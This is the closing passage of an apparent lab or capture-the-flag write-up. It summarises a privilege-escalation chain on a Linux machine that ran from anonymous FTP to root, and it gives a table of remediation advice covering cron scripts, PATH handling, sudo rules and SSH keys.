Rather than relying on software vulnerabilities, the compromise was made possible by insecure automation, writable scripts, PATH manipulation, and overly permissive `sudo` configurations. Individually, each finding appeared to present limited risk; however, when combined, they formed a complete privilege escalation path from an unauthenticated user to root.

This room highlights the importance of reviewing not only user permissions, but also the trust relationships created by scheduled tasks, service configurations, and administrative scripts.

---

# Remediation Recommendations

The compromise of the target system was achieved by chaining together several independent misconfigurations. Addressing the following findings would significantly reduce the risk of privilege escalation.

| Finding | Recommendation |
|---------|----------------|
| **Anonymous FTP Access** | Disable anonymous authentication unless it is explicitly required. Restrict file upload functionality to authenticated users and regularly review publicly accessible files. |
| **Automated File Processing** | Validate uploaded files before processing and avoid executing user-controlled content. Automated pipelines should run with the minimum privileges required and treat uploaded files as untrusted input. |
| **Writable Scheduled Scripts** | Scheduled tasks and maintenance scripts should be owned by privileged accounts and should not be writable by lower-privileged users. Regularly audit file permissions for cron jobs and scheduled scripts. |
| **PATH Hijacking** | Systemd services and privileged scripts should invoke executables using their absolute paths. Writable directories should never appear before trusted system directories within the `PATH` environment variable. |
| **Writable Helper Scripts** | Scripts executed by privileged users should not rely on helper files that can be modified by less privileged accounts. Enforce appropriate ownership and file permissions throughout the execution chain. |
| **Sudo Misconfigurations** | Apply the principle of least privilege when configuring `sudo`. Regularly review delegated permissions and remove unnecessary access to binaries that can be abused for privilege escalation, as documented by GTFOBins. |
| **SSH Key Management** | Restrict write access to users' `.ssh` directories and `authorized_keys` files. Regular auditing of SSH key configurations can help detect unauthorised persistence mechanisms. |
| **Security Monitoring** | Monitor changes to privileged scripts, systemd service files, and SSH configuration. File integrity monitoring can help detect unauthorised modifications before they are exploited. |

Implementing these recommendations would significantly reduce the attack surface and help prevent an attacker from progressing from anonymous access to full root compromise.